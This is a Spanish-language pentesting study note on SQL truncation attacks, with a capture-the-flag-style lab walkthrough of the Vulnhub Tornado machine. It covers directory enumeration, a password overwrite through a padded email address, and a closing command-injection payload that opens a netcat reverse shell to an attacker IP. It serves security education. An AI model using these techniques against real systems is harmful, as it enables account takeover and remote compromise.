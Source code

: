 # Ataque de Truncado SQL (SQL Truncation)

Tags: #SQLTrunk #OWASP #Explotacion 

El ataque de **truncado SQL**, también conocido como **SQL Truncation**, es una técnica de ataque en la que un atacante intenta **truncar** o **cortar** una consulta SQL para realizar acciones maliciosas en una **base de datos**.

Un ejemplo común de este tipo de ataque es cuando una aplicación web tiene un campo de entrada que limita la longitud de los datos, como el correo electrónico, y no valida adecuadamente los datos de entrada.

Supongamos por ejemplo una página la cual dispone de un campo de registro para crear un nuevo usuario. En este campo de registro, el usuario debe proporcionar una dirección de correo y la contraseña del usuario en cuestión que desea crear. Ahora bien, de cara a la inserción de estos datos en la base de datos, supongamos que el campo correspondiente a la dirección email que introduce el usuario, está limitado a **17 caracteres** en la base de datos.

Suponiendo que por ejemplo el usuario ‘**admin@admin.com**‘ ya existe en la base de datos, de primeras no sería posible registrar este mismo usuario, debido a que la query SQL que se aplicaría por detrás lo consideraría como una entrada duplicada. Sin embargo, dado que el correo ‘**admin@admin.com**‘ tiene un total de **15 caracteres** y todavía no hemos llegado al límite, un atacante lo que podría intentar hacer es registrar al usuario ‘**admin@admin.com  a**‘, o de otra forma para que lo veáis mejor: ‘**admin@admin.com[espacio][espacio]a**‘.

Esta nueva cadena que hemos representado para el correo electrónico, en este caso tiene un total de **18 caracteres**. De primeras el correo es distinto al correo ya existente en la base de datos (admin@admin.com), sin embargo, debido a su limitación en **17 caracteres**, tras pasar el primer filtro y proceder a su inserción en la base de datos, la longitud total de la cadena se acota a los 17 caracteres, resultando en la cadena ‘**admin@admin.com**  ‘, o dicho de otra forma: ‘**admin@admin.com[espacio][espacio]**‘.

Ahora bien, ¿qué pasa con los espacios?, pues dado que no representan “información de valor”, por decirlo de alguna forma, lo que sucederá es que se **truncarán**. A lo que nos referimos con esto del **truncado de los espacios** al final de la cadena, es a la eliminación automática de los mismos. De esta forma, la cadena resultante final se quedaría en ‘**admin@admin.com**‘, consiguiendo tras su inserción en la base de datos cambiar su contraseña a la especificada durante la fase de registro para nuestro supuesto “**nuevo usuario**“.

Este ataque funcionará para casos donde la aplicación web no valide adecuadamente los datos de entrada y corte o trunque la consulta SQL en lugar de mostrar un mensaje de error. En consecuencia, el atacante puede aprovechar esta debilidad para realizar acciones maliciosas en la base de datos, como modificar o eliminar datos, acceder a información confidencial o tomar el control de una cuenta de usuario.

Para prevenir el ataque de truncado SQL, es importante validar adecuadamente todos los datos de entrada de usuario que se utilizan en las consultas SQL. La validación debe incluir tanto la longitud como el formato de los datos de entrada.

A continuación, se os proporciona el enlace directo de descarga a la máquina Tornado de Vulnhub, la cual desplegamos en esta clase para explotar el ataque de truncado SQL:

-   **Máquina Tornado de Vulnhub**: [https://www.vulnhub.com/entry/ia-tornado,639/](https://www.vulnhub.com/entry/ia-tornado,639/)


## SQL Truncation Attack

Para esta lab usaremos la maquina Tornado en donde primero debemos de descubir rutas de directorios y lo haremos con Gobuster.

```bash
❯ gobuster dir -u http://192.168.68.115/ -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20

	# dir -> Modo enumeracion directory/file
	# u -> Colocamos la url
	# t -> Lanzar peticiones en paralelo al mismo tiempo
	# w -> Ruta del diccionario

❯ gobuster dir -u http://192.168.68.115/bluesky -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php
```

Ahi encontraremos un dir llamado 'bluesky' en el cual enumeraremos por recursos php y ahi encontraremos un panel 'login.php, signup.php'

Podemos hacer un LFI en la pagina web en donde podemos hacer uso de **~tornado/** que es como si hicieramos **/home/tornado/** y asi ingresar a su directorio personal de usuario, esto es gracias a que en la pagina Apache tiene un **alias** configurado de esa manera. 
```bash
❯ http://192.168.68.115/~tornado/

	# tornado = Nombre de la maquina que estamos usando 
	# Encontramos un archivo llamado imp.txt en donde encontramos varios correos 
```

Para el SQL Trunk Attack 
Primero en la parte de registro nos damos cuenta que tenemos un limite de 13 caracteres para el correo. Si colocamos un correo que ya existe, la base de datos no nos dejara registrarnos. 
![](Pasted%20image%2020230522171520.png)
![](Pasted%20image%2020230522170808.png)

Primero debemos de modificar la longitud de la pagina y como ejemplo ponerle 35 en lugar de 13. 
Al momento de volver a meter el usuario que ya existe le agregamos espacios en blanco y un caracter adicional.
![](Pasted%20image%2020230522170925.png)

 Esto hara que la base de datos  trate de crear este usuario, pero como desde un inicio estaba limitado a 13 caracteres, la **base de datos** le borrara los caracteres adicionales como los espacios y la 'a' por lo que lo dejara como estaba al incio pero con la diferencia de que lo va a '**sobre-registrar o sobre-escribir**' con la passwd nueva que nosotros le asignemos.


Una vez dentro de la pagina en la parte de **Contact** podemos colocar algunos comandos que nos pueden ayudar a entablar uuna ReverShell a nuestra maquina de atacante. 
![](Pasted%20image%2020230522172159.png)

Nos ponemos en escucha en nuestra maquina de atacante 
```bash 
❯ nc -nlvp 443
```

Colocamos lo siguiente en el comentario de la pagina web. 
```bash
❯ test; nc -e /bin/bash 192.168.68.114 443
```








